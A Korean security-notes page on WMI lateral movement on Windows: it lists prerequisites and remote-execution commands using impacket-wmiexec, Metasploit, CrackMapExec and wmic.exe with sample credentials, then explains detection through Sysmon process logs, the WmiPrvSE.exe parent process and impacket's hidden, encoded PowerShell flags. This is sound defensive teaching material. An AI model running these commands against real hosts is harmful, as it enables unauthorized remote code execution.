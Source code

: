 # WMI

WMI (Windows Management Instrumentation)은 1996년 개발된 윈도우 드라이버 모델이다. 주 목적은 다양한 관리 어플리케이션들의 데이터 공유를 위한 인터페이스를 제공하는 것이였다.&#x20;

보안적인 측면에서, 그리고 최근에는 원격 시스템의 코드 실행 및 프로세스 실행을 위해서 많이 쓰인다. 원격 시스템에 처음 접근 할 때는 포트 135를 사용하지만 그 이후에는 높은 번호의 ephemeral 포트가 사용된다.&#x20;

### 전제 조건&#x20;

* 타겟 호스트의 로컬 관리자 권한을 갖고 있는 계정/비밀번호/NTLM해시&#x20;
* 타겟 호스트의 포트 135 접근 가능 여부&#x20;

### 공격&#x20;

{% tabs %}
{% tab title="리눅스" %}
impacket이나 Metasploit등을 이용한다&#x20;

```
# impacket 
impacket-wmiexec '<domain>/<user>:<pass>@<FQDN/IP> -shell-type powershell 
impacket-wmiexec 'pci.choi.local/low:Password123!'@192.168.40.161 -shell-type powershell

# Metasploit 
use auxiliary/scanner/smb/impacket/wmiexec

# CrackMapexec 
cme smb <target> -u <user> -p <pass> -d <domain> --exec-method wmiexec -X whoami
cme smb 192.168.40.150 -u Administrator -p 'Password123!' --exec-method wmiexec -X whoami
```
{% endtab %}

{% tab title="윈도우" %}
따로 툴을 이용할 필요 없이 윈도우에서 제공하는 `wmic.exe` 을 이용한다.&#x20;

```
WMIC.exe /node:<ip> /user:<user> process call create "<process>"

WMIC.exe /node:192.168.40.160 /user:Administrator process call create "notepad.exe"
```
{% endtab %}
{% endtabs %}



### 대응 방안&#x20;

공격자가 사용하는 툴 마다 WMI의 적용방법이 다르지만, 공통적으로 나타나는 현상에 집중한다. 윈도우 호스트에서 직접 `wmic.exe` 프로세스를 이용하건, 리눅스에서 impacket을 이용해 wmiexec.py를 이용하건, 공통적으로 WMI를 이용하는 툴들은 모두 `WmiPrvSE.exe` 라는 프로세스에서 시작된다.&#x20;

![WmiPrvSe.exe에서 시작된 cmd.exe와 powershell.exe 프로세스 체인](<../.gitbook/assets/image (1) (1) (1) (1).png>)

`eventvwr.exe` 를 실행 한 뒤 시스몬 로그들을 확인해보면 공격자가 WMI로 접근을 한 뒤, 첫 명령어를 치자마자 시스몬 아이디 1 - Process Create가 로그된 것을 볼 수 있다.&#x20;

![](../.gitbook/assets/wmi.png)

눈여겨 볼 것은 부모 프로세스로 `wmiprvse.exe` 프로세스가 실행됐다는 것, 그리고 커맨드라인이 심상치 않다는 점이다. base64를 디코딩 해보면&#x20;

```
$ProgressPreference="SilentlyContinue";whoami
```

가 나온다. 앞의 플래그들 또한 `-NoP (노 프로필), -noL (노 로고), -sta (싱글 쓰레드 아파트먼트), -NonI (노 인터렉티브), -W (윈도우 - Hidden)` 등의 악성코드가 자주 사용하는 플래그들이 보인다.&#x20;

따라서 WMI 횡적이동을 탐지하고 대응하기 위해선 다음과 같은 로직들이 필요하다.&#x20;

1. 포트 135 접근 이후 ephemeral 포트로 접근하며&#x20;
2. 타겟 호스트의 로컬 관리자 권한이 있는 유저가&#x20;
3. 부모 프로세스는 `wmiprvse.exe`, 자식 프로세스는 `cmd.exe` 혹은 `powershell.exe` 을 생성하며
4. 최종 실행되는 커맨드라인에 수상한 플래그들이 들어가 있을 경우&#x20;

### 대응 방안 - 주의점&#x20;

WMI 또한 툴 마다 구현이 다르기 때문에 특정 플래그를 하드코딩해 탐지/대응 하는 것은 옳지 않다. 예를 들어 위 로그의 최종 커맨드 라인인 `cmd.exe /Q /c powershell.exe -NoP -NoL -sta -NonI -W Hidden -Exec Bypass -Enc` 은 impacket에 [하드코딩 된 플래그](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py#L127-L129)들이다.&#x20;

```
self.__shell = 'cmd.exe /Q /c '
self.__shell_type = shell_type
self.__pwsh = 'powershell.exe -NoP -NoL -sta -NonI -W Hidden -Exec Bypass -Enc '
```

공격자들은 언제나 이런 하드코딩 된 플래그를 바꿀 수 있고, impacket이 아닌 다른 툴들은 다르게 WMI를 구현할 수 있기 때문에 하드코딩 기반의 탐지/대응 방안은 1개의 툴은 막더라도 다른 툴들은 못 막을 수 있으니 이 점을 유의한다.&#x20;

### 레퍼런스

{% embed url="https://www.elastic.co/guide/en/security/current/wmi-incoming-lateral-movement.html" %}

{% embed url="https://riccardoancarani.github.io/2020-05-10-hunting-for-impacket/#wmiexecpy" %}

